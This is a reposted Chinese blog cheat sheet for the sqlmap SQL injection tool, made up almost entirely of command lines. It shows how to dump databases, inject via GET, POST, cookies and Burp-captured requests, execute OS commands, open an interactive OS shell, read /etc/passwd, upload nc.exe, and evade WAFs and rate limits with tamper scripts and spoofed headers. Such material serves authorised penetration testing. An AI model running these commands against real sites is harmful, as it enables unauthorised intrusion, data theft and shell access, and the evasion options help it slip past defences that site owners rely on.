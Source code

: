 ```yaml
---
layout: post
title: "[转]【tools】SQLMAP注入工具手册"
description: ""
category: 
tags: [sql]
---
```


转自:<https://sh4dow.lofter.com/post/395c80_121497d>

# 基本的注入步骤：

    sqlmap -u "https://url/news?id=1" --dbs           #查询所有数据库
    sqlmap -u "https://url/news?id=1" --current-db          #获取当前数据库名
    sqlmap -u "https://url/news?id=1" --current-user        #获取当前用户名
    sqlmap -u "https://url/news?id=1" -D "db_name" --tables    #获取表名
    sqlmap -u "https://url/news?id=1" -D "db_name" -T "table_name"  --columns #获取列名
    sqlmap -u "https://url/news?id=1"  -D "db_name" -T "table_name" -C "column_name" --dump  #获取字段内容

注入请求选项使用：

    sqlmap -u "https://url/news?id=1"               #get注入
    sqlmap -u "https://url/news" --date "id=1"        #post注入
    sqlmap -u "https://url/news" --cookie "id=1"      #cookie注入

# 结合BurpSuite拦截的POST表单注入：

浏览器打开目标地址 https://testasp.vulnweb.com/Login.asp

配置burp代理(127.0.0.1:8080)以拦截请求

点击login表单的submit按钮

如下图，这时候Burp会拦截到了我们的登录POST请求

![](/assets/imgs/2015-08-18-01.jpg)

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：./sqlmap.py -r search-test.txt -p tfUPass，这里参数 -r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

# POST登陆框注入：

    sqlmap -u https://testasp.vulnweb.com/Login.asp  --forms     #除了截包还可以用forms选项进行自动搜索表单
    sqlmap -u https://testasp.vulnweb.com/Login.asp  --date "tfUName=123$tfUPass=456" #POST的表单参数注入

# 应对伪静态指定注入点：

    sqlmap -u "https://url/news/1*.html" --dbs       #在*插入SQL注入语句查询数据库
    sqlmap -u "https://url/news/1*/html" --dbs       #在*插入SQL注入语句查询数据库


# 指定系统及数据库：

    sqlmap -u "https://url/news?id=1" --dbms PostgreSQL        #指定数据库
    sqlmap -u "https://url/news?id=1"  --os linux           #指定数据库服务器系统

# 命令执行及交互shell：

    sqlmap -u "https://url/news?id=1" --os-cmd=ipconfig     #执行ipconfig系统命令
    sqlmap -u "https://url/news?id=1" --os-shell            #写交互shell
    sqlmap -u "https://url/news?id=1"  --sql-query "show databases;"    #执行SQL语句          
    sqlmap -u "https://url/news?id=1"  --sql-shell            #返回SQLshell

# 文件操作：

    sqlmap -u "https://url/news?id=1"  --file-read  /etc/passwd    #读取系统文件
    sqlmap -u "https://url/news?id=1"  --file-write "C:/WINDOWS/Temp/nc.exe" --file-dest "/software/nc.exe" 

查看payload及注入语句：

    sqlmap -u "https://url/news?id=1"  -v 3   

#-v 0、只显示python错误以及严重的信息；

1、同时显示基本信息和警告信息；（默认）

2、同时显示debug信息；

3、同时显示注入的payload；

4、同时显示HTTP请求；

5、同时显示HTTP响应头；

6、同时显示HTTP响应页面。

    sqlmap -u "https://url/news?id=1"  --proxy "https://127.0.0.1:8080" #配置burp代理(127.0.0.1:8080)以拦截请求注入语句

# 测试等级对HTTP头注入利用：

    sqlmap -u "https://url/news?id=1" --level 3    #--level参数来进行不同全面性的测试，默认为1，不同的参数影响了使用哪些payload，2时会进行cookie注入检测，3时会进行useragent检测

![](/assets/imgs/2015-08-18-02.jpg)

# 风险等级：

--risk   #共有三个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

# 盲注添加payload语句前缀与后缀绕过WAF：

    sqlmap -u "https://url/news?id=1" -p id --suffix=" -- " --prefix=")"    #相当于https://url/news?id=1）order by 10 -- 

# 编码绕过WAF：

    sqlmap -u "https://url/news?id=1" -v 3 --dbs --tamper "space2morehash.py"  #用tamper选择编码表绕过WAF注入，更多见ramper目录

# 伪装http头绕过工具识别：

    sqlmap -u "https://url/news?id=1" --referer "https://www.baidu.com"    #从百度域超链接访问的
    sqlmap -u "https://url/news?id=1" --user-agent="Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" #设置浏览器信息
    sqlmap -u "https://url/news?id=1"  --mobile                 #伪装成智能手机，设定一个手机的User-Agent来模仿手机登陆

# 绕过HTTP请求限制：

    sqlmap -u "https://url/news?id=1"  --delay 2    #延迟时间为2秒，绕过请求频繁被防火墙拦截
    sqlmap -u "https://url/news?id=1"  --safe-url       #每隔一段时间去访问一个正常的页面，绕过多次错误访问后屏蔽请求
    sqlmap -u "https://url/news?id=1"  --safe-freq    #每次测试请求之后都再访问一遍安全连接，绕过多次错误访问后屏蔽请求

# 绕过URL参数值编码：

    sqlmap -u "https://url/news?id=1" --skip-urlencode   #关闭url编码，使web服务器接受url值

# 从文本中获取多个目标检测：

www.target1.com/vuln1.php?q=foobar

www.target2.com/vuln2.asp?id=1

www.target3.com/vuln3/id/1*               

    sqlmap -m  url.txt                       #将url格式保存到文件，sqlmap会逐一检测

# 启发式判断注入：

    sqlmap -u "https://url/news?id=1"  --batch --smart  #默认智能判断注入

